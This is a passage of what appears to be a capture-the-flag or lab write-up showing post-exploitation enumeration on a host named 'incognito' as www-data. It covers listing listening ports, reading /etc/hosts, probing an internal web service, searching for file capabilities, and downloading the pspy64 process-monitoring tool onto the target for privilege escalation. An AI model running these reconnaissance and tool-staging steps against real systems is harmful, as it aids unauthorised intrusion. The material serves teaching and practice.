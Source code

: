 ```jsx
tcp   LISTEN  0       128             127.0.0.53%lo:53            0.0.0.0:*     
tcp   LISTEN  0       128                   0.0.0.0:22            0.0.0.0:*     
tcp   LISTEN  0       50                    0.0.0.0:445           0.0.0.0:*     
tcp   LISTEN  0       5                        [::]:873              [::]:*     
tcp   LISTEN  0       50                       [::]:139              [::]:*     
tcp   LISTEN  0       128                         *:80                  *:*     
tcp   LISTEN  0       128                      [::]:22               [::]:*     
tcp   LISTEN  0       50                       [::]:445              [::]:*     

www-data@incognito:/var/www/html$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 incognito

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

www-data@incognito:/var/www/html$ curl -iLX GET 127.0.0.1:1027

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 25
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Fri, 13 Dec 2024 10:34:04 GMT

Only Talking to Root User

www-data@incognito:/var/www/html$ getcap -r / 2>/dev/null
/usr/sbin/tcpdump = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep

www-data@incognito:/var/www/html$ 

```

> **Privilege Escalation with Internal Logic**
> 

`wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64`

```jsx
pspy64                             100%[===============================================================>]   2.96M  4.50MB/s    in 0.7s    

2024-12-13 05:41:13 (4.50 MB/s) - ‘pspy64’ saved [3104768/3104768]
```

**For source:**

[https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)
